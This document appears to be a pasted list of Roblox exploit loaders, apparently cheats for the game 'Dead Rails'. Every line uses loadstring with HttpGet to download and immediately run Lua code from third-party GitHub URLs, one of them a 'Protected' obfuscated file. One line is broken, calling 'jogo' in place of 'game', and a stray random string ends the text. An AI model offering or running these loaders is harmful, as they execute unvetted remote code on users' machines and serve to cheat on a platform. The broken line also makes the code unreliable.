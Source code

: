 loadstring(game:HttpGet("https://raw.githubusercontent.com/Emircxy/Lear/refs/heads/main/LearAnimation"))()
loadstring(game:HttpGet('https://raw.githubusercontent.com/ringtaa/sterlingnotifcation.github.io/refs/heads/main/Sterling.lua'))()
loadstring(game:HttpGet("https://raw.githubusercontent.com/JonasThePogi/DeadRails/refs/heads/main/newloadstring"))();
loadstring(game:HttpGet("https://raw.githubusercontent.com/InfernusScripts/Null-Fire/main/Loader"))("DingaScripts")
loadstring(game:HttpGet("https://raw.githubusercontent.com/TwoGunVolley/Dedrail/refs/heads/main/Protected_8860927939362090.txt"))()
loadstring(game:HttpGet("https://raw.githubusercontent.com/Marco8642/science/refs/heads/ok/dead%20rails"))()
loadstring(jogo:HttpGet("https://raw.githubusercontent.com/thiennrb7/Script/refs/heads/main/autobond"))()
DqMgNggQTJNGzKtDsZlFumQCOxqtQdjU
